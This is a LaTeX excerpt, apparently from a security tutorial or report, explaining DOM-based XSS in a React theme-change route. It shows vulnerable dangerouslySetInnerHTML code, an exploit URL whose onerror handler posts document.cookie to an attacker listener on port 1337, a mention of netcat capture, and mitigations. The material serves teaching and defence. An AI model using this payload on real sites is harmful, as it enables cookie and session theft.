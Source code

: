 \documentclass[]{article}
\begin{document}
In a DOM XSS attack, the malicious script is injected and executed entirely within the browser, modifying the DOM to perform unauthorized actions or exfiltrate sensitive data.

\textbf{Vulnerable code:}
Consider the possibility for users to change the theme color. The vulnerable React code in \texttt{routes/changeTheme.js} retrieves the theme color (\texttt{themeChosen} variable) from the '\texttt{color}' URL parameter and displays it using the \texttt{dangerouslySetInnerHTML} property:

\begin{lstlisting}
<p style={{ marginTop: '20px' }}>You selected: <strong dangerouslySetInnerHTML={{__html:themeChosen}}></strong></p>
\end{lstlisting}

\textbf{Exploitation:}
An attacker can craft a malicious URL like this:

\begin{lstlisting}
http://localhost:3000/user/changeTheme?color=<audio src="" onerror="fetch('http://localhost:1337',{method:'POST',body:document.cookie})">
\end{lstlisting}

When a user visits this URL, the script executes and sends the user's cookies to the attacker's server listening on port 1337. The attacker can capture the cookies using netcat.

\textbf{Mitigation:}
To prevent DOM XSS vulnerabilities, it is essential to set cookies with the \texttt{HttpOnly: true} flag to prevent access to \texttt{document.cookie}, properly handle and sanitize all user inputs before they are used to manipulate the DOM, and avoid using \texttt{dangerouslySetInnerHTML}.

\subsubsection{Improper Neutralization of Directives in Dynamically Evaluated Code}
\label{subsubsec:improper_neutralization_of_directives_in_dynamically_evaluated_code}
\end{document}
